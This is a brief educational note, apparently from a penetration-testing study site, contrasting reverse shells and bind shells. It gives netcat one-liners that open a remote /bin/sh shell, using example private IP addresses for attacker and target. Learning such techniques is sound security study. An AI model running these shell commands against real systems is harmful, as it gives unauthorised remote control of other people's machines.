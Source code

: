 # Reverse Shells vs Bind Shells

## Reverse Shells

Victim -> Attacker

* A victim connects back to us (attacker runs listener)

Example:

<mark style="color:red;">Attacker- 192.168.1.1</mark>&#x20;

* <mark style="color:red;">`nc -lnvp 4444`</mark>

<mark style="color:yellow;">Target- 192.168.1.2</mark>

* <mark style="color:yellow;">`nc 192.168.1.1 4444 -e /bin/sh`</mark>
* The target connects back to the attacker's machine which is in a listening state

## Bind Shells

Attacker -> Victim

* An attacker connects to the victim (victim runs a listener)

Example:

<mark style="color:red;">Attacker- 192.168.1.1</mark>&#x20;

* <mark style="color:red;">`nc 192.168.1.2 4444`</mark>

<mark style="color:yellow;">Target- 192.168.1.2</mark>

* <mark style="color:yellow;">`nc -lnvp 4444 -e /bin/sh`</mark>
